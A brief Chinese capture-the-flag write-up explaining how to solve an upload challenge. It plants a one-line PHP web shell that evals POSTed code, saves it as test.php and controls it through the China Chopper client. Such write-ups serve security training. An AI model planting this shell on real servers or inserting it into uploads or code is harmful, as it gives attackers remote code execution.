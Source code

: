 ## 解答
上传一句话木马
<script language="PHP">
 @eval($_POST["code"]);
</script>
保存上述文件为test.php
然后点击题目下面的链接可以得到你的文件上传地址，是上传页面/u/test.php
然后打开菜刀，输入页面地址和code，选择脚本类型